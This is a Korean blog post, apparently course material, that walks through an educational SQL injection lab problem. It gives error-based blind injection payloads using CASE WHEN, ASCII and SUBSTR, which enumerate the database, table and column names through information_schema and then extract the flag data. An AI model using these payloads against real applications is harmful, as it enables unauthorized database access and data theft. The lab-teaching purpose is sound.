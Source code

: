 ```yaml
---
layout: single
title:  "8 주차 SQL injection 데이터 추출 문제 풀이(3)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 8 주차 SQL injection 데이터 추출 문제 풀이(3)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>

<br>

## <span style="background:#696969; color:#ffffff">1.1  SQLi Point 3 문제 </span>

<br>

<img src="/images/2024-06-09-SQLinjection27/image-20240612223253299.png" alt="image-20240612223253299" style="zoom:67%;" />

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.1 sql injection 포인트 찾기</span>

***

<br>

![image-20240612223409408](/images/2024-06-09-SQLinjection27/image-20240612223409408.png)

![image-20240612223453129](/images/2024-06-09-SQLinjection27/image-20240612223453129.png)

![image-20240612223511724](/images/2024-06-09-SQLinjection27/image-20240612223511724.png)

![image-20240612223529768](/images/2024-06-09-SQLinjection27/image-20240612223529768.png)

![image-20240612224024682](/images/2024-06-09-SQLinjection27/image-20240612224024682.png)

![image-20240612224042550](/images/2024-06-09-SQLinjection27/image-20240612224042550.png)

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.2  select 문구가 사용가능한 지 체크</span>

***

<br>

![image-20240612224146951](/images/2024-06-09-SQLinjection27/image-20240612224146951.png)

![image-20240612224206340](/images/2024-06-09-SQLinjection27/image-20240612224206340.png)



<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.3 공격 format 만들기</span>

***

<br>

case when (ascii(substr((select ~~),1,1))>0) then 1 else (select 1 union select 2) end



<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.4 DB이름 확인하기</span>

***

<br>

case when (ascii(substr((select database() limit 0,1),1,1))>0) then 1 else (select 1 union select 2) end

![image-20240612225209697](/images/2024-06-09-SQLinjection27/image-20240612225209697.png)

sqli_8

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.5 table이름 확인하기</span>

***

<br>

select table_name from information_schema.tables where table_schema='sqli_8' limit 0,1

case when (ascii(substr((select table_name from information_schema.tables where table_schema='sqli_8' limit 0,1),1,1))>0) then 1 else (select 1 union select 2) end

![image-20240612225349319](/images/2024-06-09-SQLinjection27/image-20240612225349319.png)

flag_Table

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.6 column 이름 확인하기</span>

***

<br>

select column_name from information_schema.columns where table_name='flag_Table' limit 0,1

case when (ascii(substr((select column_name from information_schema.columns where table_name='flag_Table' limit 0,1),1,1))>0) then 1 else (select 1 union select 2) end

![image-20240612225624384](/images/2024-06-09-SQLinjection27/image-20240612225624384.png)

flagData

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.7 data 추출하기</span>

***

<br>

select flagData from flag_Table limit 0,1 

case when (ascii(substr((select flagData from flag_Table limit 0,1 ),1,1))>0) then 1 else (select 1 union select 2) end

![image-20240612230009887](/images/2024-06-09-SQLinjection27/image-20240612230009887.png)

segfault{~~}

